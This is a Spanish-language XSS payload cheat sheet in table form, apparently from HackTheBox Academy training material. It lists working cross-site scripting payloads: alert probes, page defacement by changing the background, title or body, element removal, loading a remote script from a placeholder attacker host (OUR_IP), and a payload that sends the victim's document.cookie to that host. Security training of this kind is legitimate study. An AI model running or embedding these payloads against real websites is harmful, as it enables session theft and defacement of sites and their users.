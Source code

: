 | Código                          | Descripción          |
|---------------------------------|----------------------|
| `<script>alert(window.origin)</script>` | Carga útil XSS básica |
| `<plaintext>` | Carga útil XSS básica |
| `<script>print()</script>` |  |
| `<img src="" onerror=alert(window.origin)>` | Carga útil XSS básica |
| `<script>document.body.style.background = "#141d2b"</script>` | Carga útil XSS basada en HTML |
| `<script>document.body.style.background = "#141d2b"</script` | Cambiar color de fondo |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Cambiar imagen de fondo  |
| `<script>document.title = 'HackTheBox Academy'</script>` | Cambiar título del sitio web  |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Sobrescribir el cuerpo principal del sitio web |
| `<script>document.getElementById('urlform').remove();</script>` | Eliminar cierto elemento HTML |
| `<script src="http://OUR_IP/script.js"></script>` | Cargar script remoto |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Envíenos los detalles de las cookies |